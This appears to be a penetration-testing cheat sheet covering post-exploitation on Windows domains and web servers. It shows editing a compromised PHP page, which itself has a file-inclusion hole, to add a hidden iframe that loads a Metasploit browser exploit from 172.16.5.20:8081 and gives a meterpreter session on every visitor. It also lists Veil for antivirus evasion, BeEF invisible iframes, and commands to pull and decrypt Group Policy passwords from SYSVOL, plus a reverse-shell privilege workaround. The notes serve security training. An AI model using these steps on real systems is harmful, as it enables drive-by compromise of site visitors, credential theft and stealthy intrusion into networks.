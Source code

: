 If we have access to the server then we can edit php file so that whoever visits the page we will get meterpreter session.

`use exploit/multi/browser/java_rhino` or `use auxiliary/server/browser_autopwn`  
The above module could give a link that we edit and paste in php file like shown below:

```php
...
    if (isset($_GET['pag'])){
        $variabile1=$_GET['pag'];
        include($variabile1);

    echo '<iframe src="http://172.16.5.20:8081/uo3eXen8t0I1n" width=1 height=1 style="visibility:hidden; position:absolute;"></iframe>';

    }else{

...
```
***
***
`wmic service WHERE "NOT PathName LIKE '%system32%'" GET PathName, Name > C:\Users\els\filt_serv.txt`
***
***

## Bypassing Antivirus

`Veil`

***
***

## XSS to domain user

`beef` can help to insert xss script with stealth.

And we can details of the server from the web UI of beef and exploit accordingly.

We can send IFreame from commands > misc > Create Invisible iFrame

**Credentails stealing**
`net use X: \\DC01\SysVol`
`X:`
`cd examplead.lan\Policies`
`dir /s *.xml`
`type X:\examplead.lan\Policies\{69BCC2AD-B7E5-4E02-833D-DBFDD19E7EB4}\Machine\Preferences\Groups\Groups.xml`
`gpp-decrypt 0cU/uGQrF5Xfhm61HAK8wFlfYce2W6ODQAeI957VrqY`

Windows will not allow to login via psexec from a domain user. We can override this by uploading a reveseshell payload to session and granding all access and using run_as module.
